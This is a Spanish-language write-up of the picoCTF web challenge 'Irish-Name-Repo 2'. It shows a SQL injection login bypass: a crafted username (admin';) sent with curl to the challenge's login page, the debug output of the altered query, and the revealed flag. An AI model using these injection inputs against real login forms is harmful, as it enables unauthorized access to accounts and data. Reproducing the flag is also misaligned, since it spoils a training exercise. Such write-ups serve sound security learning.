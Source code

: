 # Irish-Name-Repo 2

## Descripcion Reto
There is a website running at `https://jupiter.challenges.picoctf.org/problem/64649/` ([link](https://jupiter.challenges.picoctf.org/problem/64649/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649

## Pistas
1. The password is being filtered.

## Solución

![[Pasted image 20230314121614.png]]
![[Pasted image 20230314122122.png]]
![[Pasted image 20230314122820.png]]
![[Pasted image 20230314123031.png]]
![[Pasted image 20230314123051.png]]

```bash
SQL query: SELECT * FROM users WHERE name=''or 1=1;' AND password='hola'
username: admin';
SQL query: SELECT * FROM users WHERE name='admin'; or 1=1;' AND password='hola'


ajhagaal-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/64649/login.php
<h1>Login failed.</h1>ajhagaal-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/64649/login.php -d "username=yo&password=hola"
ajhagaal-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/64649/login.php -d "username=yo&password=hola&debug=1"
<pre>username: yo
password: hola
SQL query: SELECT * FROM users WHERE name='yo' AND password='hola'
ajhagaal-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/64649/login.php -d "username=admin';&password=hola&debug=1"
<pre>username: admin';
password: hola
SQL query: SELECT * FROM users WHERE name='admin';' AND password='hola'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_aee925db}</p>ajhagaal-picoctf@webshell:~$ 
```

## Bandera
* picoCTF{m0R3_SQL_plz_aee925db}

## Notas adicionales
| Comando | Descripcion |
|---------|-------------|
|  |  |

## Referencias
- [Inyección SQL](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&ved=2ahUKEwjlsfytg9z9AhUEBEQIHW5DDc8QFnoECA8QAQ&url=https%3A%2F%2Fwww.w3schools.com%2Fsql%2Fsql_injection.asp&usg=AOvVaw1S-bwpggsWZe1QUjSOSy4G)
- [SQLi Payloas, ayuda a inyectar datos](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwi7oJqGh9z9AhURLUQIHbsaBLEQFnoECA4QAQ&url=https%3A%2F%2Fgithub.com%2Fpayloadbox%2Fsql-injection-payload-list&usg=AOvVaw1NYoxb0B4VVFeSyMSgdS--)